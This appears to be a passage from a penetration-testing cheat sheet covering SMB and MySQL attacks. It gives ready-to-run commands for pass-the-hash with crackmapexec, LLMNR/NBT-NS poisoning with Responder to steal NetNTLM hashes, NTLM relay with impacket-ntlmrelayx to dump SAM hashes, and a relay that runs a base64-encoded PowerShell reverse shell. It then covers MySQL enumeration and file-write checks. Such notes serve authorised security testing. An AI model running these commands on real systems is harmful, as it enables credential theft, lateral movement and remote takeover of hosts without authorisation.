 **Pass-The-Hash**
```shell
crackmapexec smb <host> -u Administrator -H <hash>
```
### Responder
Tool used to poison `LLMNR`, `NBT-NS`, and `MDNS`. It can also set up fake services to steal `NetNTLM v1/v2` hashes.

**Setting up a Fake Server**
```shell
responder -I <interface name>
```
### Impacket
**Connect to Host**
Same options for `impacket-smbexec` and `impacket-atexec`
```shell
impacket-psexec <user>:<'password'> <host>
```

The next few commands are for use with `Responder`. Ensure the following:
```shell
cat /etc/responder/Responder.conf | grep 'SMB ='

SMB = Off
```

**Extract SAM Hashes**
```shell
impacket-ntlmrelayx --no-http-server -smb2support -t <host>
```

**Execute Reverse Shell**
[Create shell here](https://www.revshells.com/)
```shell
impacket-ntlmrelayx --no-http-server -smb2support -t <host> -c 'powershell -e <base64 reverse shell>' # -c option allows us to use commands
```
# MySQL
[HackTricks Link][https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql]

**Nmap**
```shell
nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse <host> -p 3306
```

**Connecting to the Server**
```shell
mysql -u <user> -p<password> -h <host>
```

**Default Databases**

| **Database**         | **Description**                                                                     |
| -------------------- | ----------------------------------------------------------------------------------- |
| `mysql`              | System database that contains tables to store required information                  |
| `information schema` | Metadata                                                                            |
| `performance schema` | Monitor low level execution                                                         |
| `sys`                | Set of objects to help DBAs and developers interpret data from `performance schema` |
**Writing Files**
First we'll need to check if we have [`secure_file_priv`](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv):
1. If empty, variable has no effect
2. If set to name of a directory, imports and export operations only worth in that directory. The directory must also exist and is not created by the server